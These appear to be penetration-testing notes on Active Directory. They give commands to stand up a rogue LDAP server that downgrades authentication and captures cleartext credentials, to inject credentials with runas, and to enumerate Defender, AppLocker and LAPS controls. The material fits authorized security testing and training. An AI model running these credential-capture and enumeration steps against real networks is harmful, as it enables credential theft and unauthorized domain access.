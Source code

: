 ```shell
# Start a rogue LDAP server on Kali
apt install slapd ldap-utils
systemctl start slapd
dpkg-reconfigure -p low slapd
<select No>
<enter domain you are attacking/impersonating>
<re-enter domain you are impersonating>
<any password will work>
<select MDB>
<select No>
<select Yes>

echo "dn: cn=config" > olcSaslSecProps.ldif
echo "replace: olcSaslSecProps" >> olcSaslSecProps.ldif
echo "olcSaslSecProps: noanonymous,minssf=0,passcred" >> olcSaslSecProps.ldif

ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif
service slapd restart

tcpdump -SX -i <interface> tcp port 389
```

# Credential Injection
## Runas
```powershell
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

With credential access and a Windows machine you can connect to the domain and use the Microsoft Management Console to enumerate machines and users in the environment. 
# Enumerating Security Controls

This PowerShell will give lots of valuable information about the domain and your privileges within it. 

```powershell
Get-MpComputerStatus # Check for Windows Defender
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections # Get AppLocker Status
$ExecutionContext.SessionState.LanguageMode # Determines PowerShell Execution Language Mode (Constrained or Full access to PS functions)
Find-LAPSDelegatedGroups # Identify LAPS users and groups
Find-AdmPwdExtendedRights # Determine which devices you have access to LAPS on
Get-LAPSComputers # Find LAPS-enabled devices
```

- [[CrackMapExec]]
- [[RPCclient]]
- [[Impacket]]
- [[SMBMap]]
- [[WinDAPSearch]]
- [[BloodHound]]
- [[Powershell ActiveDirectory Module]] (Windows)
- [[PowerView]]
- [[Snaffler]]
